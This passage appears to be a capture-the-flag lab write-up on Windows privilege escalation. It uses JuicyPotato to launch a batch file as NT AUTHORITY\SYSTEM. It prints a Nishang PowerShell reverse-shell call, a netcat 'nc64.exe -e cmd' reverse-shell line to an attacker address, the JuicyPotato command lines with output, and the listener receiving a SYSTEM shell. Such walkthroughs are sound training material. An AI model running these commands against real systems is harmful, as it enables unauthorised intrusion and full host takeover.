 Prepare your `shell.ps1` file as follows and get it on the Target along with `nc64.exe`. Than start the listener on port 4444.
```
# tail shell.ps1          
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 4444
```

###### `Failed Attempt using shell.ps1`
```
PS C:\ProgramData> .\JuicyPotato.exe -t * -l 10000 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p C:\ProgramData\shell.ps1
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 10000
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[-] CreateProcessWithTokenW Failed to create proc: 193

[-] CreateProcessAsUser Failed to create proc: 193
```
The above failed attempted was failed using Nishang Shell.
###### `Successful Attempt using revshell.bat`

```
# more revshell.bat            
C:\\ProgramData\\nc64.exe -e cmd 10.10.14.2 4444
```

```
PS C:\ProgramData> .\JuicyPotato.exe -t * -p "C:\\ProgramData\\revshell.bat" -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

On the NetCat Listener Side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.63] 49761
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
